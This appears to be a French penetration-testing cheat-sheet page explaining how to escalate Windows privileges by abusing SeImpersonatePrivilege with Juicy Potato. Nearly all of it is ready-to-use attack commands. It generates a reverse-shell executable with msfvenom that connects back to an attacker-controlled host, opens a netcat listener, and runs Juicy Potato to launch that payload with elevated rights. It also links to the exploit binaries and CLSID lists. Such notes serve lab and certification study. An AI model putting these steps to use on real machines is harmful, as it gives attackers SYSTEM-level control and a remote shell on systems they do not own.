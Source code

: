 # SeImpersonatePrivilege

Lorsque les privilèges sont trop permissifs, il est possible d'élever ses privilèges localement.

<pre><code><strong># whoami /priv
</strong>
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled

</code></pre>

Sur la machine d'attaque, créer un reverse-shell et mettre en place un port en écoute pour recevoir sa connexion.

<pre><code><strong># msfvenom -p windows/shell_reverse_tcp LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f exe -o &#x3C;FILE>.exe
</strong><strong># nc -lvp &#x3C;PORT></strong></code></pre>

Ensuite exécuter JuicyPatato sur la machine victime.

```
# Juicy.Potato.x86.exe -l 80 -p C:\<PATH>\<FILE>.exe -t * -c <CLSID>
```

Liste des CLSID : [https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

Binaires JuicyPatato : [Juicy-Potato-x86](https://github.com/ivanitlearning/Juicy-Potato-x86/releases) et [Juicy-Potato-x64](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)
